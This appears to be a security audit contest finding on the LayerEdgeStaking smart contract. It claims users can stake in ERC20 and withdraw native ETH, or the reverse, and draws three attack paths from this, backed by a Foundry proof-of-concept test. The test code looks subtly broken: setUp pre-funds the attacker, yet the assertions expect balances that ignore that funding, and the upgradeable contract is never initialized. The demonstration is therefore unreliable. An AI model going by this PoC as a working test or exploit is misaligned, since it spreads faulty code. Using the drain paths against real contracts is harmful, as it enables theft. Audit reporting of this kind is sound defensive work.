 Happy Shadow Python

High

# Token Type Mismatch in LayerEdgeStaking Contract

### Summary

The contract fails to track and enforce consistency between native (ETH) and non-native (ERC20) token operations in three critical functions:

- Staking/Unstaking
- Interest claiming

### Root Cause


The core issue is that the contract doesn't store or validate the original staking method `(isNative` flag when performing subsequent operations, allowing users to freely choose between native and non-native methods regardless of how they originally staked.

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L176-L208

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L757

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L779

### Internal Pre-conditions

1. The contract must be deployed and initialized with both WETH and ERC20 token support
2. The contract must have sufficient balance of both token types (WETH and ERC20)
3. The attacker must have either:
          ERC20 tokens to stake, or
          Native ETH to stake

### External Pre-conditions

None

### Attack Path

#### Path 1: ERC20 Stake → Native ETH Unstake

1. Attacker stakes ERC20 tokens using stake()
2. Attacker requests unstake using unstake()
3. After unstaking window (7 days), attacker calls completeUnstakeNative()
4. Attacker receives native ETH instead of ERC20 tokens

#### Path 2: Native ETH Stake → ERC20 Unstake

1. Attacker stakes native ETH using stakeNative()
2. Attacker requests unstake using unstake()
3. After unstaking window, attacker calls completeUnstake()
4. Attacker receives ERC20 tokens instead of native ETH

#### Path 3: Interest Claim Mismatch

1. Attacker stakes tokens (either method)
2. Wait for interest to accrue
3. Claim interest using the opposite method of staking:
                  For ERC20 stake: Use claimInterestNative()
                  For Native stake: Use claimInterest()

### Impact

1. Fund Loss: Users can receive funds in a different token type than they staked
2. Contract Balance Imbalance:
      - WETH balance can be drained by ERC20 stakers
      - ERC20 balance can be drained by native ETH stakers
3. System Integrity: Breaks the expected 1:1 relationship between staking and unstaking/claiming methods
4. Potential DoS: Other users' operations might fail if the contract runs out of a particular token type

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {LayerEdgeStaking} from "@src/stake/LayerEdgeStaking.sol";
import {LayerEdgeToken} from "@test/mock/LayerEdgeToken.sol";

contract TokenTypeMismatchTest is Test {
    LayerEdgeStaking public staking;
    LayerEdgeToken public token;
    address public attacker = makeAddr("attacker");
    uint256 public constant STAKE_AMOUNT = 3000 ether;

    function setUp() public {
        // Deploy contracts
        token = new LayerEdgeToken();
        staking = new LayerEdgeStaking();
        
        // Fund attacker
        // send the token from the deployer to the attacker via transfer 
        token.transfer(attacker, STAKE_AMOUNT);
        // send the native asset from the deployer to the attacker
        vm.deal(attacker, STAKE_AMOUNT);
    }

    function test_ERC20ToNativeUnstake() public {
        // 1. Stake ERC20 tokens
        vm.startPrank(attacker);
        token.approve(address(staking), STAKE_AMOUNT);
        staking.stake(STAKE_AMOUNT);
        
        // 2. Request unstake
        staking.unstake(STAKE_AMOUNT);
        
        // 3. Wait for unstaking window
        vm.warp(block.timestamp + 7 days + 1);
        
        // 4. Unstake as native ETH (should fail but doesn't)
        staking.completeUnstakeNative(0);
        
        // 5. Verify attacker received native ETH
        assertEq(attacker.balance, STAKE_AMOUNT);
        vm.stopPrank();
    }

    function test_NativeToERC20Unstake() public {
        // 1. Stake native ETH
        vm.startPrank(attacker);
        staking.stakeNative{value: STAKE_AMOUNT}();
        
        // 2. Request unstake
        staking.unstake(STAKE_AMOUNT);
        
        // 3. Wait for unstaking window
        vm.warp(block.timestamp + 7 days + 1);
        
        // 4. Unstake as ERC20 (should fail but doesn't)
        staking.completeUnstake(0);
        
        // 5. Verify attacker received ERC20 tokens
        assertEq(token.balanceOf(attacker), STAKE_AMOUNT);
        vm.stopPrank();
    }

    function test_InterestClaimMismatch() public {
        // 1. Stake ERC20 tokens
        vm.startPrank(attacker);
        token.approve(address(staking), STAKE_AMOUNT);
        staking.stake(STAKE_AMOUNT);
        
        // 2. Wait for interest to accrue
        vm.warp(block.timestamp + 30 days);
        
        // 3. Claim interest as native ETH (should fail but doesn't)
        staking.claimInterestNative();
        
        // 4. Verify attacker received native ETH as interest
        assertTrue(attacker.balance > 0);
        vm.stopPrank();
    }
}
```

### Mitigation

1. Track Staking Method

2. Enforce Consistency in Unstaking

3. Enforce Consistency in Interest Claims

